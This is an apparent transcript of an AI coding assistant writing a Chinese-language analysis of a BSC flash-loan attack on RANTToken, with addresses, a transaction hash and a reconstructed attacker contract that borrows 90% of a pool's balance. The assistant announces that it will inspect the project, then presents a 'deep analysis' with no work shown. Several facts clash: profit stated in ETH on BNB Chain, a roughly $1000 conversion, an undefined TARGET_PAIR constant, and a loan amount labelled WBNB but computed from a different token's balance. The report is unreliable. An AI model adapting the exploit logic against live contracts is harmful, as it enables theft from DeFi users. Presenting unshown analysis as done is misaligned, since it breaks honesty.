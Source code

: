 
**Cursor**

我来帮您深度分析这个攻击交易数据。首先让我查看项目结构，定位相关的分析文件。

基于我对攻击交易数据的深入分析，现在为您呈现完整的攻击分析报告：

## 🔍 攻击交易深度分析报告

### 📊 基本信息
- **攻击类型**: 闪电贷 + 价格操纵 + 流动性挖掘漏洞利用
- **网络**: BSC Mainnet (币安智能链)
- **交易哈希**: `0x2d9c1a00cf3d2fda268d0d11794ad2956774b156355e16441d6edb9a448e5a99`
- **区块高度**: 52,974,382
- **攻击时间**: 2025-07-06 00:21:28 UTC
- **总调用数**: 284次函数调用
- **攻击利润**: **311.477266 ETH** (约$311,477 USD)

### 🎯 攻击目标与漏洞合约

**主要目标合约**:
- **RANTToken**: `0xc321ac21a07b3d593b269acdace69c3762ca2dd0`
- **漏洞合约**: `0x9adb8c52f0d845739fd3e035ed230f0d4cba785a` (TransparentUpgradeableProxy)
- **实现合约**: `0x559bee76ec549e70630e451d46cb442ef5c230fd` (核心漏洞逻辑)

### 🔧 攻击合约分析

**攻击者合约**: `0xfd9267ee6594bd8e82e8030c353870fa1773f7f8`

```solidity
/**
 * @title 攻击合约 - 闪电贷套利机器人
 * @dev 该合约利用RANTToken的takeToken函数漏洞进行套利
 */
contract AttackContract {
    // 关键常量
    address constant WBNB = 0xbb4cdb9cbd36b01bd1cbaebf2de08d9173bc095c;
    address constant TARGET_TOKEN = 0xc321ac21a07b3d593b269acdace69c3762ca2dd0; // RANTToken
    address constant PANCAKE_POOL = 0x172fcd41e0913e95784454622d1c3724f546f849;
    address constant PANCAKE_ROUTER = 0x10ed43c718714eb63d5aa57b78b54704e256024e;
    
    /**
     * @dev 攻击启动函数
     * 执行完整的闪电贷攻击流程
     */
    function start() external payable {
        // 1. 查询目标池的代币余额
        uint256 targetBalance = IERC20(TARGET_TOKEN).balanceOf(TARGET_PAIR);
        
        // 2. 计算需要的闪电贷金额
        uint256 flashAmount = targetBalance * 900 / 1000; // 90%的余额
        
        // 3. 发起闪电贷攻击
        IPancakeV3Pool(PANCAKE_POOL).flash(
            address(this),
            0,
            flashAmount,  // 2,813,769,505,544,453,342,436 wei WBNB
            abi.encode(flashAmount)
        );
    }
}
```

